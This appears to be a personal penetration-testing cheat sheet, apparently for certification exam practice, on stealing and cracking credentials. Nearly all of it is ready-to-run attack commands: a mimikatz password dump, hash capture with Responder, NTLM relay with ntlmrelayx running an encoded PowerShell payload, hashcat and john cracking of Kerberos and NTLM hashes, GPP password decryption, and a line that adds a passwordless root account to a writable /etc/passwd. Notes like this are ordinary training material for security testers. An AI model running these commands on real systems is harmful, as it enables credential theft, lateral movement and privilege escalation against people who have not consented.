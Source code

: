 # Get
Run mimikatz non-interactively:
```powershell
.\mimikatz.exe privilege::debug sekurlsa::logonpasswords exit
```

##### Forced authentication
Does not require high privileges, aquires NTLMv2 Hashes.
You need to connect to your kali with SMB to get the NTLMv2 hashes. For example by abusing a web application on the target or with `dir \\$tip\test` executed on it.
```bash
sudo responder -A -I tun0
```
> Do not forget the `-A`, otherwise responder could use features that are not allowed in the exam!

NTLMv2 contains a timestamp, but uncrackable hashes can still be relayed if the relayed user is local admin on the target or the latter has UAC remote restrictions disabled:
```bash
impacket-ntlmrelayx --no-http-server -smb2support -t $hip -c "powershell -enc JABjAGwAaQBlAG4AdA..."
```

# Convert
passwd -> john
```
unshadow passwd shadow > unshadowed.hash
```
SSH Key -> john
```bash
ssh2john $file > id_rsa.hash
```

# Crack
#### John
```
john --wordlist=/usr/share/wordlists/rockyou.txt $file
```

For LM Hashs:
2. Run john with `--format=LM --show` and without attack type (e.g. wordlist). It will identify 2 hashes per lines, bc LM hashes can be cracked partly. Also, if it displays `????`, this part of the LM wasn't cracked yet. But it needs to.
3. Figure out capitalization of password. I've created a script to get that using the NTML Hash (did I ever test it?...). Alternatively, create wordlist file with only the found password canidate in uppercase. Run john with `--rules --format=NT --wordlist=` to get the password correctly capitalized. ![[checkLMagainstNTLM.py]]
#### Hashcat
Kerberos AS-REP
```bash
sudo hashcat -m 18200 hashes.asreproast /usr/share/wordlists/rockyou.txt -r /usr/share/hashcat/rules/best64.rule --force
```
Kerberos TGS-REP
```bash
sudo hashcat -m 13100 hashes.kerberoast /usr/share/wordlists/rockyou.txt -r /usr/share/hashcat/rules/best64.rule --force
```
NTLM Hash
```bash
sudo hashcat -m 1000 hashes.ntlm /usr/share/wordlists/rockyou.txt -r /usr/share/hashcat/rules/best64.rule --force
```
NTLMv2 Hash
```bash
sudo hashcat -m 5600 hashes.ntlmv2 /usr/share/wordlists/rockyou.txt -r /usr/share/hashcat/rules/best64.rule --force
```
NT Hash
```bash
hashcat -a 3 -m 900 --encoding-to utf16le NTHashes.txt
```
#### If set through GPP
```bash
gpp-decrypt "$hash"
```
#### If unsalted
https://crackstation.net/

# Exploit
If `/etc/passwd` is writeable
```bash
echo 'dummy::0:0::/root:/bin/bash' >>/etc/passwd
su - dummy
```
Or with acutal credential
```bash
openssl passwd -1 -salt dummy dummy
```

# Identify
Hashes
`hashid $hash`
`hash-identifier`

Find credentials in source code
`~/Documents/activeInformationGathering/trufflehog filesystem --no-verification $path`
#### Windows
| | | | | 
|-|-|-|-|
| $Administrator:$|$500:$|$NO PASSWORD*********************:$|$BE134K40129560B46534340292AF4E72:::$|
|USER     |UID|            LM Hash             |     NT Hash (also called NTLM)|


CrackStation -> RockYou.txt (john)



#### Linux
| | | | | |
|-|-|-|-|-|
|root:|\$6|\$IodYKEbO|\$5TglyZFgGW72oeW0Ql/9Wt7KwW2XWeW3TNmBUo94Qsj1tJg.tDs1HIuIlmyr/:|18251:0:99999:7:::|
|user| $*$|  Salt  |                     Hashed Password                         | Account Information|

|$(*)$|Algorithm|Hashcat|
|-|-|-|
|$1$  |MD5 |500|
|$2a$|Blowfish|3200|
|$2y$|Blowfish|
|$5$|SHA-256|7400|
|$6$|SHA-512|1800|

